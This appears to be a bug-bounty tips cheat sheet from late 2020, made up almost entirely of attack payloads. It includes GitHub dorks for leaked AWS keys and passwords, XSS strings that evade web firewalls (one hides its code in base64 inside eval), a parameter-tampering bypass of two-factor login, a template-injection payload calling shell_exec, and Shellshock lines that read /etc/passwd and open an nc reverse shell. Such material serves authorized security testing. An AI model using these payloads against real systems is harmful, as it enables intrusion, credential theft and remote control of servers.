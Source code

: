 # October-2020 Bug Bounty Tips 
## Github Search for Sensitive Info
```text
org:citrix "aws"
org:Target "bucket_name"
org:Target "aws_access_key"
org:Target "aws_secret_key"
org:Target "S3_BUCKET"
org:Target "S3_ACCESS_KEY_ID"
org:Target "S3_SECRET_ACCESS_KEY"
org:Target "S3_ENDPOINT"
org:Target "AWS_ACCESS_KEY_ID"
org:Target "list_aws_accounts"
api_key
“api keys”
authorization_bearer:
oauth
auth
authentication
client_secret
api_token:
“api token”
client_id
password
user_password
user_pass
passcode
client_secret
secret
password hash
OTP
user auth
```
## XSS Firewall Bypass Techniques
1. Check if firewall is blocking only lowercases
```js
<sCRipT>alert(1)</sCRiPt>
```
2. Try to break firewall regex with new line (\r\n)
```js
<script>%0aalert(1)</script>
```
3. Try double encoding
`%2522`
4. Testing for recursive filters, if firewall removes text in red, we will have clear payload
```js
<scr<script>ipt<alert(1);</scr<script>ipt>
```
5. Injecting anchor tag without whitespaces
```js
<a/href="j&Tab;a&Tab;v&Tab;asc&Tab;ri&Tab;pi&Tab;pt&Tab;alert&lpar;1&rpar;">
```
6. Try to Bypass whitespaces using Bullet
```js
<svg•onload=alert(1)>
```
7. Try to chnage the Request Method
```js
GET /?a=xss

POST /?a=xss
```
**New Payload to Bypass WAF**
```js
<script>alert?.(document?.domain)</script>
```
## Find xmlrpc in single shot
```sh
cat domain.txt | assetfinder --subs-only | httprobe | while read url; do xml=$(curl -s -L $url/xmlrpc.php | grep 'XML-RPC');echo -e "$url -> $xml";done | grep 'XML-RPC' | sort -u
```
## Bypass Multifactor Authentication
1. Notice both the request while login when 2FA is enabled and disabled
2. While 2FA is Disabled :

**Request**
```json
{"email":"abc@mail.com","pass":"password","mfa":null,"code":""}
```
**Response**
```json
Location : https://abc.com/user/dashboard 
```
3. While 2FA is Enabled :

**Resuest**
```json
{"email":"abc@mail.com","pass":"password","mfa":true,"code":""}
```
**Response**
```json
Location : https://abc.com/v1/proxy/authentication/authenticate
```
4. Tamper the Parameter and change the "mfa":null and "code":"" to disable the 2FA
```json
Location : https://abc.com/user/dashboard
```
## DOM XSS
![dom-xss](img/20201007_195906.jpg)
## WAF Bypass 
![waf-bypass](img/waf-bypass.jpg)
## Automate Subdomain Takeover
```sh
cat subfinder -dL domain.txt -o sub.txt && subjack -w sub.txt |toslack
```
***Put it on cron to run once a day***
## Akami WAF Bypass
Reflection in "a" tag, attribute context:
```
< => allowed
<anything> => access denied
quotes => allowed
onanything= => access denied
/ or \ or eval() => access denied
```
**Bypass**
```js
"<>onauxclick<>=(eval)(atob('YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=='))>+<sss
```
## Find Reflected XSS
1. subfinder + httprobe
```sh
subfinder -d abc.com | httprobe -c 100 > target.txt
cat target.txt | waybackurls | gf xss | kxss
```
2. Check the URL which have all the special characters unfiltered and the paramater was callback=
3. Check Portswigger XSS CheatSheet for more information.
## XSS Cloudflare Bypass
```js
<x/onpointerRawupdate=confirm%26Ipar;1)//x
```
## Bypass Admin Location
1. If GET /admin/ is 403
2. Try this GET /admin;/
## Server SIde Template Injection
```sh
{{_self.env.registerUndefinedFilterCallback('shell_exec')}}{{_self.env.getFilter('dir)}}
```
**Tool for Burpsuite**
> ***https://github.com/antichown/0x94TR***   
> ***For more info - Exploit Proof of Concept***   
> ***https://youtu.be/TrQi9iwtA0k***
## Test on CGI (cgi-bin)
```sh
User-Agent: () { :;}; echo $(</etc/passwd)
() { :;}; /usr/bin/nc ip 1337 -e /bin/bash
```
## Github Dorks cheat sheet
![cheatsheet](img/gitdork.jpg)
## SQLi
![sqli](img/sqli-2.jpg)
